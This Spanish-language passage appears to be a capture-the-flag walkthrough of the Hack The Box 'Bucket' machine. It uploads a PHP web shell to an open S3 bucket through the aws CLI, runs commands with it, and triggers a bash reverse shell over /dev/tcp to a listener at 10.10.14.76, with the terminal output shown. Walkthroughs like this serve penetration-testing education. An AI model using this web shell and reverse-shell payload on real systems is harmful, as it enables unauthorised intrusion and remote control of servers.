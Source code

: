 Intemos subir ficheros para ver si podems hacer algo más interesante: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ echo "test" > text.txt
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ aws s3 --endpoint-url http://s3.bucket.htb cp test.txt s3://adserver/owo.txt
upload: ./test.txt to s3://adserver/owo.txt
```

Parece que está ahí, pero no podemos acceder al contenido: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ aws s3 --endpoint-url http://s3.bucket.htb ls s3://adserver/                
                           PRE images/
2025-05-19 06:43:02       5344 index.html
2025-05-19 06:43:37          5 owo.txt
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ curl http://bucket.htb/owo.txt
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at bucket.htb Port 80</address>
</body></html>
```

Tal vez solo acepta `.html` o `php`, le cambiamos la extensión y probamos: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php


┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ curl http://bucket.htb/shell.php?cmd=id                     
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Ya podemos mandarnos una shell: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ aws s3 --endpoint-url http://s3.bucket.htb cp shell.php s3://adserver/                                     
upload: ./shell.php to s3://adserver/shell.php

┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ curl http://bucket.htb/shell.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.76/4443 0>&1'"

┌──(kali㉿kali)-[~]
└─$ rlwrap nc -nlvp 4443
listening on [any] 4443 ...
connect to [10.10.14.76] from (UNKNOWN) [10.10.10.212] 51396
bash: cannot set terminal process group (1065): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bucket:/var/www/html$ script /dev/null -c bash 
script /dev/null -c bash 
Script started, file is /dev/null
www-data@bucket:/var/www/html$ 
zsh: suspended  rlwrap nc -nlvp 4443
                                                                                                                                                                                            
```